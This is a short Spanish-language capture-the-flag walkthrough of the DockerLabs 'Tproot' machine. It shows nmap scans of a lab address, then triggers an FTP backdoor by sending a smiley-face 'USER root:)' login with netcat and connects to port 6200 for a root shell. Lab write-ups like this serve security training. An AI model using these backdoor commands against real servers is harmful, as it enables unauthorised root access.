




# 🎯 Tproot - DockerLabs

## 🔍 Fase 1 - Enumeración

### Escaneo de puertos

Primero realizo un escaneo completo para identificar puertos abiertos en la máquina víctima.

`sudo nmap -p- --open -sS -n -Pn -vvv 172.17.0.2`

---

### Escaneo de versiones

Luego realizo un escaneo de versiones sobre los servicios encontrados.

`sudo nmap -sCV -p21,80 172.17.0.2`

---

# 🚪 Fase 2 - Explotación

## Activación del backdoor FTP

Aprovecho la vulnerabilidad del servicio FTP para intentar activar el backdoor.

`echo -e "USER root:)\r\nPASS root\r\n" | nc -v 172.17.0.2 21`

---

## Conexión al backdoor

Una vez activado el backdoor, me conecto al puerto 6200.

`nc 172.17.0.2 6200`

---

## Verificación de acceso

`whoami`

`root`
